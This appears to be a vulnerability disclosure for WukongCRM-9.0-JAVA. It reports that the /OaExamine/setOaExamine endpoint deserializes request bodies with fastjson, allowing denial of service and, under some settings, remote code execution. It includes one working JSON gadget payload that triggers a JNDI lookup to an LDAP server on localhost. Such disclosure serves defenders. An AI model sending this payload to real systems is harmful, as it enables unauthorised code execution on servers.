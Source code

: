 # [WukongCRM-9.0-JAVA](https://github.com/WuKongOpenSource/WukongCRM-9.0-JAVA)

## fastjson deserialization vulnerability

Similar to CVE-2024-23052，The /OaExamine/setOaExamine path of WukongCRM-9.0-JAVA also has a fastjson deserialization vulnerability.

Class：OaExamineController

Path：/OaExamine/setOaExamine

Directly deserializing the request body may lead to a fastjson deserialization vulnerability:

![image-20250826143725274](images/image-20250826143725274.png)

![image-20250826143717496](images/image-20250826143717496.png)

By default, a deserialization denial of service attack is possible:

![image-20250826143809607](images/image-20250826143809607.png)

With specific dependencies and autoTypeSupport enabled, deserialization can be used to achieve RCE：

```json
{"@type":"org.apache.commons.proxy.provider.remoting.SessionBeanProvider","jndiName":"ldap://localhost:1389/Exploit","Object":"a"}
```

![image-20250826153102932](images/image-20250826153102932.png)


![image-20250826153128766](images/image-20250826153128766.png)

